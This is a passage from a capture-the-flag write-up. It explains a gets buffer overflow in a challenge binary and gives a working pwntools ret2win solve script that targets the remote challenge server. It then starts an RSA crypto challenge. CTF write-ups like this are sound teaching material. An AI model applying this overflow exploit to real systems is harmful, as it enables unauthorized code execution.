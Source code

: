 
Since `gets` does not perform boundary checks, any input longer than 56 bytes overflows the buffer. This allows us to control the return address and execute a ret2win attack by redirecting execution to the win function.

#### Solution

The buffer size in vuln is 56 bytes. 

Our payload will need to fill this buffer and then overwrite the return address.
Redirect to win:

After overflowing the buffer, we add the address of win to the payload. The return address we use in this case is the address of the win function, which we retrieve from the binary using ELF from pwntools.

#### Solve Script

below is the solve script

```python 
from pwn import *


elf = context.binary = ELF("./pwnme")



p = remote("0.cloud.chals.io", 13545) #process()


payload = b"A" * 56
payload += p64(0x000000000040101a)
payload += p64(elf.sym["win"])



p.recvline()
p.recvline()
p.sendline(payload)
p.interactive()
```
{: .nolineno }



`udctf{h00r4y_I_am_a_pwn3r_n0w}`

## Crypto

### Training Problem: Intro to RSA

#### Description

```bash
In [9]: p = getPrime(128)
In [10]: q = getPrime(128)
In [11]: N = p*q
In [12]: bytes_to_long(flag) < N
Out[12]: True
In [13]: print(pow(bytes_to_long(flag), 65537, N), N)
9015202564552492364962954854291908723653545972440223723318311631007329746475 51328431690246050000196200646927542588629192646276628974445855970986472407007
```
{: .nolineno }
